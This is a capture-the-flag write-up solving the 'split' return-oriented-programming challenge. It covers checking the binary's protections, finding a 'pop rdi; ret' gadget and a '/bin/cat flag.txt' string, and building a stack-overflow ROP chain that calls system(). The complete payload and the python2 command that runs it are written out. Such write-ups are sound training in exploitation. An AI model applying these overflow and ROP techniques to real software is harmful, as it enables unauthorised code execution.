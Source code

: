 ### split
The problem guides has told you that same as ret2win, there is a 0x20 buffer, which can be overflowed, and there is still a syscall in a function named usefulFunction.

First, check the binarat security.
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
NX is enabled. Therefore, we cannot execute shellcode in stack directly. Thankful, the hint has told us that there is a syscall in function. We only need to control return address to jump to the syscall place.
Use ghidra to track the code.

There is indeed a 0x20 buffer, and indeed a syscall in function usefulFunction.

However, the syscall command is not "/bin/cat flag.txt", "but /bin/ls".
```
...
00400746 bf 4a 08        MOV        EDI=>s_/bin/ls_0040084a,s_/bin/ls_0040084a       = "/bin/ls"
         40 00
0040074b e8 10 fe        CALL       system                                           int system(char * __command)
         ff ff
...
```
Therefore, need to modify the command in the syscall, try to assign "/bin/cat flag.txt" to the register edi(x86 64 first argument).

Use ghidra to find "/bin/cat flag.txt" in binary.
```
...
                     usefulString                                    XREF[1]:     Entry Point(*)  
00601060 2f 62 69        ds         "/bin/cat flag.txt"
         6e 2f 63 
         61 74 20 

...
```
We find the string "/bin/cat flag.txt" in address 0x00601060.

Now, we need to find a instruction such as "pop rdi" or "pop edi" with ret to assign this address to EDI register.

Use rop command in peda-gdb.
```
...
0x00000000004007c3 : pop rdi ; ret
...
```
We find a gadget which exactly we want.

Then, we can construct our rop overflow strings.

Same as ret2win, buffer size is 0x20, and a rbp address, so the strings should be:

```
strings = 'A'*32(32 bytes) + rbp(8 bytes) = 'A' * 40 //overflow 0x20 buffer and rbp register
```
Next, the process should return to the gadget we found before, which will be:
```
'\xc3\x07\x40\x00\x00\x00\x00\x00' //return address jump to the gadget we want. In this case is, pop rdi; ret;
```
Then, we need to push the "/bin/cat flag.txt" address into stack, which will be pop into EDI register later:
```
'\x60\x10\x60\x00\x00\x00\x00\x00' //the value we want to pop into rdi register. In this case is the address of string "/bin/cat flag.txt".
```
Now, we successfully assign the command we want into the EDI register, we can return to the syscall place to executer syscall.
```
'\x4b\x07\x40\x00\x00\x00\x00\x00' //return address jump to the syscall. It will execute the command we assign to rdi.
```
Remember, we should directly jump to call system instruction. If we jump to the instruction right before it, the argument in EDI will be modified to "/bin/ls" again. 

The overflow string will be:
```
'A'*40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x4b\x07\x40\x00\x00\x00\x00\x00'
```
Run the program with input:
```
python2 -c "print 'A'*40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x4b\x07\x40\x00\x00\x00\x00\x00'" | ./split
```
Get the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
